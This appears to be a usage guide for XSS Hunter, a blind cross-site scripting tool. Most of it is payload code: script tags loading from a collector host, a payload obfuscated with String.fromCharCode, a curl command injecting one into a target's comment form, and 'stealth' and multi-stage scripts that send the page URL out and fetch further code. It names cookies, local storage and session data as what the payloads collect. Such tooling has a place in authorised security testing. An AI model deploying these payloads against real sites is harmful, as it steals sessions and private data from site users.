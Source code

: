 ## Basic Usage

### 1. Payload Generation
```javascript
// Basic XSS Hunter payload
"><script src="https://yoursubdomain.xss.ht"></script>

// Advanced payload with context
'><script src="https://yoursubdomain.xss.ht"></script><'

// For specific contexts
"><img src=x onerror="eval(String.fromCharCode(118,97,114,32,115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,32,115,46,115,114,99,61,39,104,116,116,112,115,58,47,47,121,111,117,114,115,117,98,100,111,109,97,105,110,46,120,115,115,46,104,116,39,59,32,100,111,99,117,109,101,110,116,46,104,101,97,100,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59))">
```

### 2. Payload Injection
```bash
# Manual testing
curl -X POST "http://target.com/comment" \
  -d "comment=><script src=https://yoursubdomain.xss.ht></script>"

# Automated testing with various tools
echo '"><script src="https://yoursubdomain.xss.ht"></script>' > xss_payload.txt
```

### 3. Result Collection
- Access your XSS Hunter dashboard
- Review triggered payloads
- Analyze collected data:
  - DOM content
  - Cookies
  - Local storage
  - Session data
  - Screenshots

## Advanced Features

### Custom Payload Generation
```javascript
// Stealth payload
var s = document.createElement('script');
s.src = 'https://yoursubdomain.xss.ht/probe';
s.onload = function() {
    // Custom actions after load
    collectSensitiveData();
};
document.head.appendChild(s);

// Multi-stage payload
(function() {
    var img = new Image();
    img.src = 'https://yoursubdomain.xss.ht/stage1?url=' + encodeURIComponent(window.location);
    
    setTimeout(function() {
        var s = document.createElement('script');
        s.src = 'https://yoursubdomain.xss.ht/stage2';
        document.head.appendChild(s);
    }, 2000);
})();
```